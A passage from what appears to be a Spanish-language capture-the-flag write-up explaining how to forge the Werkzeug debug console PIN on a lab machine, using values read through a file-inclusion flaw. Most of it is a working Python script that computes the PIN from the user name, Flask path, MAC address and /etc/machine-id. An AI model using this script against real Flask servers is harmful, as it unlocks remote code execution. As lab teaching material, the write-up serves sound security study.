 #### Forjando pin Werkzeug 

El endpoint http://10.10.11.164/console nos permite ejecutar comandos de forma remota, pero en esta ocasión, la URL está protegida por pin. La buena noticia es que este pin se puede forjar teniendo en cuenta algunos parámetros internos de la máquina víctima. Por eso necesitamos el LFI. Toda la información relativa a este punto la estaré sacando de [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug).

El *script* que deberemos ejecutar será el siguiente, pero antes deberemos sustituir algunas constantes:

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'web3_user',## username
    'flask.app',## modname
    'Flask',## getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.5/dist-packages/flask/app.py' ## getattr(mod, '__file__', None),
]

private_bits = [
    '279275995014060',## str(uuid.getnode()),  /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'## get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```
